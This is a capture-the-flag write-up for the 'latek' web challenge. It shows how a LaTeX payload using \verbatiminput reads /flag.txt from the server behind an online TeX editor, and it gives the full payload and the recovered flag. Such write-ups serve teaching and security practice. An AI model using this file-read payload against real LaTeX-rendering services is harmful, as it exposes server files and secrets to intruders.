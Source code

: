 # latek

## Description

> bryanguo (not associated with the ctf), keeps saying it's pronouced latek not latex like the glove material. anyways i made this simple app so he stops paying for overleaf.
>
> Note: flag is ONLY at `/flag.txt`
>
> Author: smashmaster
>
> [`latek.amt.rs`](https://latek.amt.rs//)

Tags: _web_

## Solution

By first looking at the website, I can say that this is a web LaTeX editor which executes TeX macros. So we just need to open the file at root `/flag.txt` to get the flag. We can do so by just adding two lines: `\usepackage{verbatim}` to load the package verbatim which allows us to display text exactly as it is, without any processing or interpretation of special characters, and `\verbatiminput{/flag.txt}` to include the content of the file `/flag.txt`

```latex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
Hello, world!
\verbatiminput{/flag.txt}
\end{document}
```

Flag `amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`

